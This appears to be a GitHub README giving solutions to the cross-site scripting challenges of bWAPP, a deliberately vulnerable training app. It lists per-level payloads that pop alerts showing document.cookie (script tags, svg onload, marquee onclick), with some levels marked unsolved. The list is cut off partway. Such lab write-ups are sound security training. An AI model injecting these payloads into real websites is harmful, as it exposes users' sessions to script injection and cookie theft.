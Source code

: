 # XSS-BWAPP-SOLUTION
Welcome to the repository of comprehensive solutions for bWAPP's Cross-Site Scripting (XSS) challenges, meticulously curated and solved by BugBot19 (Nihar Rathod). This repository serves as a one-stop resource for anyone looking to understand and solve XSS vulnerabilities in the bWAPP (Buggy Web Application) framework.

A3-Cross-Site-Scripting



XSS - Reflected (GET)(LOW)
Payload- <script>alert(document.cookie)</script>(can be inserted in both parameter Firstname and lastname)
XSS - Reflected (GET)(MEDIUM)
Payload- <svg onload=alert(document.cookie)>(Can be inserted in both the parameter Firstname and Lastname)
XSS - Reflected (GET)(High)
NYF
XSS - Reflected (POST)(Low)
Payload-<script>alert(document.cookie)</script>
XSS - Reflected (POST)(Medium)
Payload-<svg onload=alert(document.cookie)>
XSS - Reflected (POST)(High)
NYF
XSS - Reflected (JSON)(Low)
Payload - <marquee onclick=alert(document.cookie)>Click on me</marquee>
XSS - Reflected (JSON)(Medium)
Payload – NYF
XSS - Reflected (JSON)(High)
Payload – NYF
XSS - Reflected (AJAX/JSON)(Low/Medium)
Payload - <marquee onclick=alert(1)>Click!!!</marquee>
XSS - Reflected (AJAX/JSON)(High)
